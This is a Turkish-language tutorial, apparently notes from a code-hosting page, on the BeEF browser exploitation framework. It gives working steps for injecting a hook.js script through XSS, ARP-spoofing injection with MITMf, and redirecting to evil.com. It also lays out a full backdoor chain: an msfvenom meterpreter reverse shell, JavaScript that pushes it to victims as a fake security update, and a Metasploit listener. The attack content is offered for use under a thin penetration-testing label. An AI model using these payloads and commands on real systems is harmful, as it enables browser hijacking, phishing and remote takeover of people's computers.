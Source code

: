 ### BeEF (Browser Exploitation Framework) Nedir?
BeEF (Browser Exploitation Framework), tarayıcıları hedef alan güvenlik açıklarını test etmek için kullanılan bir sızma testi aracıdır.

### 📌 Ne İşe Yarar?
🔹 XSS açıkları üzerinden tarayıcıyı ele geçirmek

🔹 Hedefin IP, cihaz bilgileri, ağ bağlantıları gibi bilgilerini toplamak

🔹 Tarayıcı üzerinden komut çalıştırarak saldırılar simüle etmek

🔹 Pentest ve güvenlik araştırmalarında kullanılır

### 📌 Nasıl Çalışır?
1️⃣ Hedefin Tarayıcısını Hook'lama
XSS açığı bulunan bir siteye BeEF JavaScript payload’u enjekte edilir.
Kullanıcı bu sayfaya girince tarayıcısı BeEF’e bağlanır.

2️⃣ Tarayıcı Üzerinden Bilgi Toplama ve Exploit Çalıştırma
Kullanıcının IP adresi, işletim sistemi, tarayıcı bilgileri alınır.
Keylogger, sayfa değiştirme, phishing saldırıları gibi testler yapılabilir.
Hedefi Oltaya Takmak

### 2️⃣ Hedef Tarayıcıyı "Hook" Et (Bağlamak)
✅ Hedefin tarayıcısını BeEF’e bağlamak için XSS veya açık bir site kullanılır.

✅ BeEF'in hook.js kodunu hedefte çalıştırmalısın:
```
html
```
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Eğer bir web sitesinde XSS açığı bulduysan, yukarıdaki kodu payload olarak enjekte edebilirsin.

🔹 Hedef bu sayfayı açtığında tarayıcısı BeEF’e bağlanır.

### 3️⃣ Hedef Tarayıcıya Komut Gönderme

✅ BeEF panelinden hooklanan (bağlanan) tarayıcıyı seç ve aşağıdaki işlemleri yapabilirsin:

🔹 Bilgi Toplama:
Tarayıcı ve işletim sistemi bilgilerini al
Hedefin IP adresini öğren

🔹 Tarayıcı Üzerinde Saldırı Simülasyonu:
Alert pop-up çıkartma:
javascript
alert("Tarayıcınız ele geçirildi!");
Keylogger çalıştırma
Phishing sayfası açma
Sayfa yönlendirme (Redirect)
JavaScript Enjeksiyonu
MitM Saldırısı
```
#python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --inject --js-url
```
gateway=modem ip
target=hedef ip
(bettercap daha güncel bir araçtır. Genelde artık bettercap kullanılır.)
### BeEF Kontrol Paneli – Kısaca Özet
BeEF'in kontrol paneli, bağlanan tarayıcıları yönetmek ve saldırı simülasyonları yapmak için kullanılan bir arayüzdür. http://127.0.0.1:3000/ui/panel adresinden erişilir.

### 📌 BeEF Kontrol Panelinin Bölümleri

## 1️⃣ Online Tarayıcılar (Hooked Browsers)
✅ Bağlanan (hook edilen) tarayıcıları listeler.

✅ Hedefin IP adresi, işletim sistemi, tarayıcı türü ve versiyonu gösterilir.

## 2️⃣ Modüller (Commands)
✅ Hedef tarayıcıda çalıştırılabilecek exploit ve komutları içerir.

✅ Kullanılabilecek bazı modüller:
Alert Box Gönderme (alert("Hacked!"))
Sayfa Yönlendirme (window.location="http://evil.com")
Keylogger (Klavye Dinleme)
Sahte Login Sayfası Gösterme (Phishing)

## 3️⃣ Loglar ve Konsol (Logs & Console)

✅ Çalıştırılan komutların ve hedeften gelen cevapların kaydedildiği bölümdür.

✅ JavaScript kodları girerek hedef tarayıcıda testler yapabilirsin.

## 4️⃣ Ağ Saldırıları (Network Attacks)
✅ Hedef tarayıcı yerel ağda (LAN) çalışıyorsa, yerel cihazları ve portları taramak için kullanılabilir.

### 4️⃣ Hedef Tarayıcıdan Çıkma ve Kapanış
✅ Hedef tarayıcı sayfayı kapatırsa bağlantı kopar.

✅ BeEF’i durdurmak için CTRL + C yaparak terminalden kapatabilirsin.

### 📌 Özet
🚀 BeEF, tarayıcı güvenlik açıklarını test etmek için kullanılır.

✅ XSS açığını kullanarak bir tarayıcıyı "hook" edersin.

✅ Bağlanan tarayıcıda bilgi toplama, yönlendirme ve phishing testleri yapabilirsin.
### BeEF ile Backdoor Gönderme (Kısaca)
BeEF, hedefin tarayıcısını "hook" ettikten sonra çeşitli saldırılar simüle edebilir. Bunlardan biri de bir backdoor dosyasını hedefe iletmek ve çalıştırmasını sağlamaktır.

### 1️⃣ BeEF ile Hedefi "Hook" Et
Öncelikle hedefin tarayıcısını BeEF’e bağlamalısın. Bunun için bir XSS açığı veya hedefin ziyaret ettiği bir sayfaya aşağıdaki hook.js kodunu ekleyebilirsin:
```
html
```
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Hedef bu sayfayı açınca tarayıcısı BeEF’e bağlanır.

### 2️⃣ Backdoor Payload Hazırla (Metasploit ile)
Metasploit kullanarak bir Windows reverse shell backdoor oluştur:
```
bash
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > backdoor.exe
🔹 LHOST: Kendi IP adresin
🔹 LPORT: Dinleyeceğin port

### 3️⃣ BeEF ile Hedefe Backdoor Gönderme
BeEF kontrol paneline gir (http://127.0.0.1:3000/ui/panel) ve "Hooked Browsers" sekmesinden hedefi seç.

✅ Saldırı Modüllerinden "Create Invisible iFrame" Kullan:
Bunu kullanarak arka planda zararlı dosyanın indirildiği bir iFrame oluşturabilirsin:
```
javascript
```
window.location.href = "http://YOUR_IP/backdoor.exe";

✅ Fake Güncelleme Mesajı ile İndirtme:
Hedefe sahte bir mesaj gösterip backdoor’u indirmesini sağlamak için:
```
javascript
```
alert("Güvenlik güncellemesi gerekli! Güncellemeyi indirmek için Tamam'a tıklayın.");
window.location.href = "http://YOUR_IP/backdoor.exe";

✅ HTML 5 Download API Kullanımı:
```
javascript
```
var link = document.createElement('a');
link.href = 'http://YOUR_IP/backdoor.exe';
link.download = 'update.exe';
document.body.appendChild(link);
link.click();
🔹 Bu yöntem, dosyanın tarayıcı tarafından otomatik indirilmesini sağlar.

### 4️⃣ Backdoor’u Dinleme ve Yönetme
Hedef backdoor.exe dosyasını çalıştırırsa, Metasploit ile bağlantıyı dinle:
```
bash
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
exploit
📌 Başarıyla bağlantı kurulduğunda hedef sistem üzerinde kontrol sağlarsın.



